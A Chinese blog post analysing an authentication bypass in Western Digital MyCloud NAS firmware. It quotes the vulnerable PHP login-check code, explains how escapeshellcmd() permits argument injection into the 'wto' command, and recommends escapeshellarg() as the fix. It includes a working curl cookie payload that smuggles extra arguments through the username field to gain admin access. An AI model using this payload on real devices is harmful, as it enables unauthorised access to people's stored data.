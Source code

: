 ```yaml
---
layout: post
title: 西部数据MyCloud存在登陆认证绕过漏洞
categories: 网络
description: 西部数据MyCloud存在登陆认证绕过漏洞
keywords: 西部数据, 登陆认证绕过
---
```

因为我的笔记本电脑的空间太小了，所以考虑利用云储存来存放一些静态的数据。虽然百度云盘有免费2T的额度，但是上传下载速度非常慢，并且还要付费VIP会员才能享受高速下载，于是我选择了西部数据的MyCloud产品。

![](https://alienx.oss-cn-shenzhen.aliyuncs.com/images/network/B0801-2.jpg)

为了避免广告嫌疑，我这里只稍微提提我对这个产品的看法。这几乎是市面上性价比最高的NAS产品，不到千元能够拥有3000GB的私有空间，并且内置的3.5英寸硬盘是西部数据比较高端的NAS红盘，要知道这个硬盘（3TB）单价都快接近千元了。在千兆的网络环境下，这款产品支持高达60MB/s的读写能力，并且是无风扇设计，工作的时候非常安静。MyCloud已经内置了西部数据的NAS系统，只需要简单的设置就能立刻投入使用。最让我爱不惜手的是它原生支持apple的时间胶囊功能，非常简单就能部署apple的“时刻备份”。

最近在FreeBuf有一篇文章提到，西部数据的NAS系统发现几个漏洞，我在阅读完文章之后，尝试去利用该漏洞做简单的网络攻击。可以访问[这里](1)查看这篇文章。

# 0.漏洞挖掘
首先，主机的IP地址是192.168.199.218，MyCloud的IP地址是192.168.199.244，它们同一网段。我先利用SSH登陆MyCloud的后台查找漏洞的文件。
```bash
ssh root@192.168.199.244
```
顺利登陆之后，按照FreeBuf中提到的漏洞文件，顺利在这个目录下找到对应的<code>login_checker.php</code>。
```bash
cd /var/www/web/lib/
```

# 1.查看代码
在这个文件里面有两个函数，首先看一看这个<code>login_check</code>函数。
```php
function login_check()
{
        $ret = 0;
        if (isset($_SESSION['username']))
        {
                if (isset($_SESSION['username']) && $_SESSION['username'] != "")
                    $ret = 2; //login, normal user
                if ($_SESSION['isAdmin'] == 1)
                    $ret = 1; //login, admin
        }
        else if (isset($_COOKIE['username']))
        {
                if (isset($_COOKIE['username']) && $_COOKIE['username'] != "")
                    $ret = 2; //login, normal user

                if ($_COOKIE['isAdmin'] == 1)
                    $ret = 1; //login, admin

                if (wto_check($_COOKIE['username']) === 0) //wto check fail
                    $ret = 0;
        }
        return $ret;
}
```
它的作用是先检查<code>session</code>是否正确设置了username，并且根据<code>isAdmin</code>变量的值来判断是不是拥有管理员权限。如果<code>session</code>没有设置，那么就去询问<code>cookie</code>中是否正确了username，检查的思路是类似的。但是注意到有一点不同，那就是<code>wto_check</code>函数，它尝试第二次对cookie进行识别。下面是<code>wto_check</code>的定义，它的位置在<code>/var/www/web/lib/login_checker.php</code>中。
```php
/*
  return value: 1: Login, 0: No login
*/
function wto_check($username)
{
        if (empty($username))
                return 0;

        exec(sprintf("wto -n \"%s\" -i '%s' -c", escapeshellcmd($username), $_SERVER["REMOTE_ADDR"]), $login_status);
        if ($login_status[0] === "WTO CHECK OK")
                return 1;
        else
                return 0;
}
/* ret: 0: no login, 1: login, admin, 2: login, normal user */
```
上面可以看到，当<code>$username</code>非空的时候，它会尝试执行<code>wto</code>命令，其中参数是<code>$username</code>以及<code>$_SERVER["REMOTE_ADDR"]</code>，其中后者代表的是请求方的IP地址。我们尝试查询<code>wto</code>命令是做什么用的？
```bash
# wto --h
Usage: wto [parm]
-h        help
-n        user name
-i        ip address
-s        set timeout
-g        get timer
-c        check timeout
-r        reset timer
-a        remove all
-x        del timeout item
-z        show all
-d        del user
```
到这里我们就知道了关于<code>wto</code>的一些参数信息了。回到上面的<code>login_checker.php</code>中，它尝试使用<code>escapeshellcmd($username)</code>来过滤恶意的输入，但是它不能阻止我们传入参数。所以可以利用这一点重新设置timeout的属性，然后就可以绕过认证了。（The programmer used the PHP function “escapeshellcmd()” which is used to escape an entire command (as opposed to a single argument) and doesn’t comment out new function arguments.）

这里应该建议使用<code>escapeshellarg()</code>来避免攻击。

# 2.构造攻击
使用任何基于PHP的RCE攻击，设置cookie就可以了，例如下面的语句(作为curl的参数)
```bash
--cookie "isAdmin=1;username=admin\" -s 1337 -c \""
```

# 3.效果
![](https://alienx.oss-cn-shenzhen.aliyuncs.com/images/network/B0801-1.jpg)

# 题外话
目前我更新了系统固件，该漏洞依旧存在。另一方面，西部数据的NAS系统还存在很多严重的漏洞，例如绕过认证上传文件、绕过认证远程执行命令漏洞等等，限于篇幅这里就不一一展示了，希望读者阅读之后能够有所收获。

# More
这次实验花了我一个晚上的时间，收获很多很多，例如加深了对RCE的理解，如何过滤恶意的输入以及NFS协议的细节。通过抓包和控制台检测整个通信的过程，并成功向MyCloud注入了命令，非常好玩！不过很遗憾的是，因为我利用SSH登陆了后台，所以这台机器已经失去了【保修】的资格。谢谢各位看官。


  [1]: http://www.freebuf.com/vuls/128734.html